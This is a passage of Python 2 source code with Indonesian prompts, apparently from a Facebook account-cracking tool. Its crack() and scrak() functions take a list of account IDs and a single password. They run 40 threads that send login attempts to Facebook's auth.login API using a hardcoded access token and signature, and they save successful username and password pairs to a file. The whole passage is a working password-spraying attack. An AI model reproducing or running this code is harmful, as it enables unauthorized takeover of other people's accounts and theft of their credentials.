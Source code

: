             print '\x1b[1;91m[!] Terget tidak ditemukan'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
            menu_hack()


def crack():
    global file
    global idlist
    global passw
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('reset')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID  \x1b[1;91m: \x1b[1;97m')
        passw = raw_input('\x1b[1;91m[+] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;97m')
        try:
            file = open(idlist, 'r')
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
            for x in range(40):
                zedd = threading.Thread(target=scrak, args=())
                zedd.start()
                threads.append(zedd)

            for zedd in threads:
                zedd.join()

        except IOError:
            print '\x1b[1;91m[!] File tidak ditemukan'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
            menu_hack()


def scrak():
    global back
    global berhasil
    global cekpoint
    global gagal
    global up
    try:
        buka = open(idlist, 'r')
        up = buka.read().split()
        while file:
            username = file.readline().strip()
            url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + username + '&locale=en_US&password=' + passw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6'
            data = urllib.urlopen(url)
            mpsh = json.load(data)
            if back == len(up):
                break
            if 'access_token' in mpsh:
                bisa = open('Berhasil.txt', 'w')
                bisa.write(username + ' | ' + passw + '\n')
                bisa.close()
                berhasil.append('\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + username + ' | ' + passw)
                back += 1
            else:
                if 'www.facebook.com' in mpsh['error_msg']: